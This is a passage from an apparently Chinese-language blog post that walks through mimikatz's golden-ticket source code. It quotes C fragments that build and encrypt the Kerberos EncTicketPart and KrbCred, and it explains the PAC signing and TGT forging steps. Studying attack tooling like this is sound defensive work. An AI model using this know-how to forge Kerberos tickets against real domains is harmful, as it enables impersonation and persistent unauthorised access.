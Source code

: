 ```
			status = kuhl_m_kerberos_encrypt(keyType, KRB_KEY_USAGE_AS_REP_TGS_REP, key, keySize, BerApp_EncTicketPart->bv_val, BerApp_EncTicketPart->bv_len, (LPVOID *) &ticket.Ticket.Value, &ticket.Ticket.Length, TRUE);	
			if(NT_SUCCESS(status))
			{
				kprintf(L" * EncTicketPart encrypted\n");
				if(BerApp_KrbCred = kuhl_m_kerberos_ticket_createAppKrbCred(&ticket, FALSE))
					kprintf(L" * KrbCred generated\n");
				LocalFree(ticket.Ticket.Value);
			}
			else PRINT_ERROR(L"kuhl_m_kerberos_encrypt %08x\n", status);
			ber_bvfree(BerApp_EncTicketPart);
		}
	}
```

一共分成三部分，分别是

- 生成PAC并对其签名
- 生成并加密EncTicketPart
- 生成最终的TGT

**生成和签名PAC**

可以看到是先通过函数 `kuhl_m_pac_infoToValidationInfo`（这些信息包括 *LogoffTime, PasswordLastSet, PasswordMustChange* 等） 和 `kuhl_m_pac_validationInfo_to_PAC` 生成验证信息并转化为PAC 结构，然后用 `kuhl_m_pac_signature` 函数对其签名，PAC 信息就生成完毕，代码见 [kuhl_m_kerberos_pac.c#L146](https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kerberos/kuhl_m_kerberos_pac.c#L146) 。

**生成和加密EncTicketPart**

接下来使用函数`kuhl_m_kerberos_ticket_createAppEncTicketPart` （参考 [kuhl_m_kerberos_ticket.c#L250](https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kerberos/kuhl_m_kerberos_ticket.c#L250)）生成 EncTicketPart，这个EncTicketPart就是是组成 TGT 的重要组成部分，TGT 的详细组成后面会讲。

查看一下该函数的实现细节如下（部分代码）：

```
{% raw %}
		ber_printf(pBer, "t{{t{", MAKE_APP_TAG(ID_APP_ENCTICKETPART), MAKE_CTX_TAG(ID_CTX_ENCTICKETPART_FLAGS));
		kull_m_asn1_BitStringFromULONG(pBer, ticket->TicketFlags);
		ber_printf(pBer, "}t{", MAKE_CTX_TAG(ID_CTX_ENCTICKETPART_KEY));
		kuhl_m_kerberos_ticket_createSequenceEncryptionKey(pBer, ticket->KeyType, ticket->Key.Value, ticket->Key.Length);
		ber_printf(pBer, "}t{", MAKE_CTX_TAG(ID_CTX_ENCTICKETPART_CREALM));
		kull_m_asn1_GenString(pBer, &ticket->AltTargetDomainName);
		ber_printf(pBer, "}t{", MAKE_CTX_TAG(ID_CTX_ENCTICKETPART_CNAME));
		kuhl_m_kerberos_ticket_createSequencePrimaryName(pBer, ticket->ClientName);
		ber_printf(pBer, "}t{{t{i}t{o}}}t{", MAKE_CTX_TAG(ID_CTX_ENCTICKETPART_TRANSITED), MAKE_CTX_TAG(ID_CTX_TRANSITEDENCODING_TR_TYPE), 0, MAKE_CTX_TAG(ID_CTX_TRANSITEDENCODING_CONTENTS), NULL, 0, MAKE_CTX_TAG(ID_CTX_ENCTICKETPART_AUTHTIME));
		kull_m_asn1_GenTime(pBer, &ticket->StartTime);
		ber_printf(pBer, "}t{", MAKE_CTX_TAG(ID_CTX_ENCTICKETPART_STARTTIME));
		kull_m_asn1_GenTime(pBer, &ticket->StartTime);
		ber_printf(pBer, "}t{", MAKE_CTX_TAG(ID_CTX_ENCTICKETPART_ENDTIME));
		kull_m_asn1_GenTime(pBer, &ticket->EndTime);
		ber_printf(pBer, "}t{", MAKE_CTX_TAG(ID_CTX_ENCTICKETPART_RENEW_TILL));
		kull_m_asn1_GenTime(pBer, &ticket->RenewUntil);
		ber_printf(pBer, "}"); /* ID_CTX_ENCTICKETPART_CADDR not present */
{% endraw %}
```
